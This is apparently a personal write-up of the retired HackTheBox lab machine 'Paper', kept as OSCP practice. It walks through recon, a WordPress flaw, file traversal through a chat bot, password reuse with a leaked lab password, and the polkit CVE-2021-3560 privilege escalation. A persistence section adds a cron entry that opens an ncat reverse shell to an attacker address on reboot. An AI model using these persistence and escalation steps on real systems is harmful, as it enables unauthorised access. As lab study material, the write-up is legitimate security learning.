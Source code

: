 
# Paper Writeup

Name: Paper
Date:  14/12/2022
Difficulty:  Easy
Goals:  OSCP Preparation
Learnt:
- Kick the head with the password reuse, because has always seemed alien to me 
- Run multiple Scripts and attempts of the same script

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](HackTheBox/Retired-Machines/Paper/Screenshots/ping.png)

Nikto reveals a office.paper, add to /etc/host with:
```bash
echo "$ip office.paper" | sudo tee -a /etc/hosts
```
Made a mistake that cost me time which was to add .htb to the end. Positive positives. 

Feroxbuster directory busting reveals it is a wordpress site. The blundertiffin site:
![blundertiffin](Screenshots/blundertiffin.png)

```bash
wpscan --url -e --api-token $apikey -o $output-file
```

Then tried: [exploitdb](https://www.exploit-db.com/exploits/47690) for the sccret correspondence:
![secret](Screenshots/secret-wp.png)

Registering an account on the rocket.chat, seems like the box is american office themed. recyplops is a bot on the chat reading required: ![1000](Screenshots/recyclops.png)

Recyclops has directory traversal and file inclusion vulnerablity:

![one](Screenshots/recyclops-exp0.png)

After looking around I found credentials in the hubot/.env file

![creds](Screenshots/hubot-env.png)

![denied](denied-by-dwight.png)

`Queenofblad3s!23`

## Foothold

..but Dwight does use the same password for recyclops and himself:

![](same-password.png)

## PrivEsc
```bash
uname -a

Linux paper 4.18.0-348.7.1.el8_5.x86_64 #1 SMP Wed Dec 22 13:25:12 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```


Linpeas highlighed 
![1000](badpath.png)

Amusing the creator of the box has Secnigma CVE-2021-3960, which failed to find...

![](cron.png)

![1000](interestingfiles.png)

## Returning to Root and Beyond Root

To keep my head sloshing with quality Privilege Escalation experiences while I am trying to get Cloud Certified and power on through these attempts. Furthermore Beyond Root for this box is a to play with the wordpress configuration and try three modern Linux Persistence techniques. I decided to [hack and chill with the Funday Sunday (title says Funday,but apparently its Nooby Tuesday)with Alh4zr3d](https://www.youtube.com/watch?v=QeJ4IcwD9ig) to mix up my day and to finish this. I will check 3 other writeups to check (they were all the same) for alternate route especially if Wordpress configuration is just me reading configuration files.  

Alh4zr3d uses the command injection to get a reverse shell. Amusing the creator of the box has Secnigma CVE-2021-3960, which failed to find... which did not show up in my Linpeas.sh even though it did for Al and I could run another Linux Exploit suggester script. No problem.. [Here we go](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation) 
TL;DR - explaination of the exploit: race condition, where the exploitation beats check in polkit by sending and closing a request while polkit is still processing the request, because we are UID 0 at at the point we can write a new user and password in the wheel group (sudo group) so you can `sudo su` as that user to becom e root.

![](newroot.png)

## Wordpress configuration

Has a `.nmp` for the bot, dmiffinblog contain the wordpress site. I just read some of the files here to see what they did

## Linux Persistence

1. ssh key generation - https://attack.mitre.org/techniques/T1098/004
```bash
cat /etc/ssh/sshd_config
# configure to root to login
ssh-keygen 
chmod 600 id_rsa
```

1. cronjob 
```bash
(crontab -l ; echo "@reboot sleep 200 && ncat $REVADD 1337 -e /bin/bash")|crontab 2> /dev/null
```

3. reseached modern linux persistence

There is no desktop:
https://attack.mitre.org/techniques/T1547/013 - By default, XDG autostart entries are stored within the `/etc/xdg/autostart` or `~/.config/autostart` directories and have a .desktop file extension.

No systemd
https://attack.mitre.org/techniques/T1543/002 - Systemd service